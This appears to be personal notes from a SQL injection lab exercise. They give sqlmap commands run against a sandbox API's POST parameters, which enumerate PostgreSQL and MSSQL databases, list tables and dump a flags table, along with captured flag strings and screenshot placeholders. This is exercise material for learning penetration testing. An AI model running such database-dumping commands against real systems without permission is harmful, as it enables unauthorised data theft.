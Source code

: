 2. `OS{PostgreSQLsqlmapFlag}`

starting point - hit submit
![[Pasted image 20240822155410.png]]
open burp and pull parameters
![[Pasted image 20240822155436.png]]
flush sessin because switching databases
```bash
sqlmap -u http://sql-sandbox/sqlmap/api --method POST --data "db=postgres&name=taco&sort=id&order=asc" -p "name,sort,order" --flush-session
```
![[Pasted image 20240822155655.png]]
dumping flag table
```bash
sqlmap -u http://sql-sandbox/sqlmap/api --method POST --data "db=postgres&name=taco&sort=id&order=asc" -p "name,sort,order" --dbms=postgres --dump
```
![[Pasted image 20240822155814.png]]


### For exercises 3/4 you start in the `SYSTEM` database so in order to complete this exercise you need to identify the `SQLMAP` database 
3. `OS{secretSQLmapFlagForMSSQL}`
![[Pasted image 20240827172613.png]]
starting point
![[Pasted image 20240822162044.png]]
pull up burp - copy parameters for sqlmap query
![[Pasted image 20240822162118.png]]
![[Pasted image 20240822162258.png]]
sqlmap dump database - taking  a while to finish
```bash
sqlmap -u http://sql-sandbox/sqlmap/api --method POST --data "db=mssql&name=taco&sort=id&order=asc" -p "name,sort,order" --dbms=mssql --dump --flush-session
```
this returns nothing

In order to continue on we need to know what database we are woking with.

This command with default input shows all the databases available with the `-dbs` and `-D` option
```bash
┌──(root💀gobots)-[27Aug2024 20:54:33]-[/home/kali]
└─# sqlmap -u http://sql-sandbox/sqlmap/api --method POST --data "db=mssql&name=Tacos&sort=id&order=asc" -p "name,sort,order" --dbms=mssql --dbs -D testing --flush-session
```
![[Pasted image 20240827172258.png]]
Once we have the databases we then need the tables - we didnt have to flush session
```bash
sqlmap -u http://sql-sandbox/sqlmap/api --method POST --data "db=mssql&name=Tacos&sort=id&order=asc" -p "name,sort,order" --dbms=mssql -D sqlmap --tables --flush-session 
```
This returns the tables
![[Pasted image 20240827172417.png]]
then we need the columns
```bash
sqlmap -u http://sql-sandbox/sqlmap/api --method POST --data "db=mssql&name=Tacos&sort=id&order=asc" -p "name,sort,order" --dbms=mssql -D sqlmap -T flags --dump --flush-session 
```
profit
![[Pasted image 20240827172543.png]]
4. `OS{OracleSQLmapFlag}`